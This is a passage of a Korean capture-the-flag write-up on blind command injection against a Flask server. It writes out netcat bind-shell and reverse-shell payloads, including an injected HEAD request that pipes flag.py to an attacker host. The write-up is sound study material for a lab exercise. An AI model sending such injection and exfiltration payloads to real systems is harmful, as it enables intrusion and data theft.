 ```

`flag_result.txt` 파일의 내용이 아래와 같이 웹 페이지에 출력되는 것을 확인할 수 있다.

<img width="591" alt="image" src="https://github.com/user-attachments/assets/0df909ae-6abd-4bcf-9dbb-117eed272b27">

`flask`에는 **Static File Directory**로 `/static` 경로를 사용하기 때문에, `/static`이 아닌 다른 이름의 디렉토리를 생성하여 접근하면, 파일을 출력해주지 않는 것을 주의하자.

# 3. Bind Shell

위 방법은 서버의 특정 port를 열어 공격자가 접속하는 방법이다. [링크](https://velog.io/@buaii/blind-command)의 풀이를 참고하였다.

```
nc -lvp [portnum]
```

위와 같은 명령어를 수행하도록 시스템 함수에 전달해주면 된다.

그럼 간단하게 아래의 페이로드를 보내면 될 것이다.

```
HEAD /?cmd=nc+-lvp+[portnum] HTTP/1.1
```

공격대상 서버에 해당 payload로 port를 열고 공격자가 접속을 하면 되지만, 이 문제에서는 특정 포트를 열어도 포트포워딩 설정을 할 수 없어 bind shell로는 결과를 알 수 없다고 한다.

이 부분은 다음에 한번 다시 공부해보자.

# 4. Reverse Shell

위 방법은 공격자가 특정 port를 열어 서버가 접속하도록 하는 방법이다.

```
cat flag.py | nc [myIP] [portnum]
```

위와 같은 명령어를 수행하도록 시스템 함수에 전달해주면 된다.

그럼 간단하게 아래의 페이로드를 보내면 될 것이다.
```
HEAD /?cmd=cat+flag.py|nc+[myIP]+[portnum] HTTP/1.1
```

로컬에서 포트를 열어주고 서버를 연결시켜보면 플래그가 전송되는 것을 확인할 수 있다고 한다.

이 부분도 다음에 한번 다시 공부해보자.
